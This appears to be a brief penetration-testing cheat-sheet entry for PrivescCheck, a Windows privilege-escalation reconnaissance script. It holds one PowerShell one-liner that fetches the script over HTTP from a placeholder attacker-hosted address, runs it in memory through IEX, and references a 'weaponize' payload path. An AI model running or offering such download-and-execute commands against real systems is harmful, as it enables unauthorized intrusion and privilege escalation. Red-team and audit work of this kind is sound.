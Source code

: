 # PrivescCheck

#plateform/windows #target/local #cat/RECON #tag/powershell
## onliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_privesccheck_path>PrivescCheck.ps1') | IEX; Invoke-PrivescCheck -Extended
```
= dl_privesccheck_path: windows/windows_weaponize/ps/empire/privesc/